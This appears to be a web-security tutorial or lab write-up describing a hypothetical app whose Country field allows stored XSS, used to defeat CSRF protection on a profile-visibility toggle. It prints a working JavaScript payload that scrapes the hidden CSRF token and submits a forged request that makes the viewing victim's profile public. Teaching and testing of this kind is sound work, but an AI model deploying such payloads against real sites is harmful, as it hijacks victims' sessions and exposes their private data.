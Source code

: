 Imagine a web application that has a mini-profile feature, which shows a user's name, email, and country. It also has a "Change Visibility" functionality, that allows a user to make their profile public or private.

Additional facts about the application:
- The application features same origin/same site protections as anti-CSRF measures (through a server configuration)
- The application's _Country_ field is vulnerable to stored XSS attacks.

For this scenario, we will target the Change Visibility functionality, because a successful CSRF attack would cause the disclosure of a private profile.

We will use the following payload and insert it in the Country field:
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
> Note: The snippet `/name="csrf" type="hidden" value="(\w+)"/)[1];` looks for a hidden input field called _csrf_ and \w+ matches one or more alphanumeric characters. We know there is an input field called _csrf_ by reading the page's source code using developer tools.

To simulate a victim visiting our profile, we will open an incognito window and login as a different user, we will then visit our now public profile and the payload from our profile will execute, making our victim profile publicly visible without interference from them.
